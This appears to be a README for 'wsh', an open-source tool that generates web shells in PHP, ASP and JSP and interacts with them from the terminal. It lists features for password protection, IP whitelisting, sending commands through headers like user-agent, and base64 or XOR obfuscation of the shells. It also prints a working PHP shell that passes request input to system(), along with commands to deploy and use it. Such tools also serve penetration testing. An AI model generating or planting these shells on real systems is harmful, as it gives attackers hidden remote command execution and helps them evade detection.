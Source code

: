 # wsh

wsh (pronounced woosh) is a web shell generator and command line interface. This started off as just an http client since interacting with webshells is a pain. There's a form, to send a command you have to type in an input box and press a button. I wanted something that fits into my work-flow better that ran in the terminal. Thus wsh was born.

The client features command history, logging, and can be configured to interact with a previously deployed webshell with a form/button. The generator creates webshells in php, asp, and jsp. They are generated with random variables, so each will have a unique hash. They can be configured with a whitelist, passwords, and allow commands to be sent over custom headers and parameters. The generator and client can be configured through command line flags or configuration files to allow for saving a setup that works for you without doing what I call the "--help" dance. Once configured, the client and generator use the same config file.

## Features

- Interact with deployed web shells via the command line
  - Logging
- Generate webshells in PHP, JSP, and ASP
  - IP whitelisting
  - Password protection
  - Send commands over custom headers/parameters
  - File download
  - File upload (Work in progress)
  - Base64 encoded shells for asp and php
  - XOR encrypted shells for asp and php

## Usage

### Connect functionality

```
wsh [flags] <URL>

-X, --method string        HTTP method: GET, POST, PUT, PATCH, DELETE (default "GET")
    --param string         Parameter for sending command
    --header string        Header for sending command
-P, --params strings       HTTP request parameters
-H, --headers strings      HTTP request headers
-c, --config string        Config file
-k, --ignore-ssl           Ignore invalid certs
    --log string           Log file
    --prefix string        Prepend command: 'cmd /c', 'powershell.exe', 'bash'
    --timeout int          Request timeout in seconds (default 10)
    --trim-prefix string   Trim output prefix
    --trim-suffix string   Trim output suffix
-h, --help                 help for wsh
```

### Generate webshell

```
wsh generate <language> [flags]

-X, --method string        HTTP method (GET,POST,PUT,PATCH,DELETE) (default "GET")
-p, --param string         Parameter for sending command
    --header string        Header for sending command
-w, --whitelist strings    IP addresses to whitelist
-o, --outfile string       Output file
    --no-file              Disable file upload/download capabilities
    --pass string          Password protect shell
    --pass-header string   Header for sending password
    --pass-param string    Parameter for sending password
    --xor-header string    Header for sending xor key
    --xor-key string       Key for xor encryption
    --xor-param string     Parameter for sending xor key
    --base64               Base64 encode shell
    --minify               Minify webshell code
-t, --template string      Webshell template file
-h, --help                 help for generate
```

## Examples

### Simple Shells

The following commands generates and interacts with a simple php web shell.

```
$ wsh generate php --param cmd --no-file -o shell.php
Created shell at shell.php.

$ wsh 127.0.0.1:8080/shell.php --param cmd

```

```php
<?php
  $MfOb = $_REQUEST['cmd'];
  $MfOb = trim($MfOb);
  system($MfOb);
  die;
?>
```

Commands can also be passed over http headers

```
$ wsh generate php --no-file --header user-agent  -o shell.php
Created shell at shell.php.

$ wsh 127.0.0.1:8080/shell.php --header user-agent
```

### Whitelisting

```
$ wsh generate php --no-file --param cmd -w 127.0.0.1,10.0.23.3 -w 192.4.22.3 -o shell.php
```

### Password Protection

Passwords can be sent over parameters or headers.

```
$ wsh generate php --no-file --param cmd --pass S3cr3t --pass-param pass
$ wsh 127.0.0.1:8080/shell.php --param cmd -P pass:S3cr3t

$ wsh generate php --no-file --param cmd --pass S3cr3t --pass-header pass-header
$ wsh 127.0.0.1:8080/shell.php --param cmd -H pass-header:S3cr3t
```

### Compile jsp to war

jar -cvf filename.war index.jsp
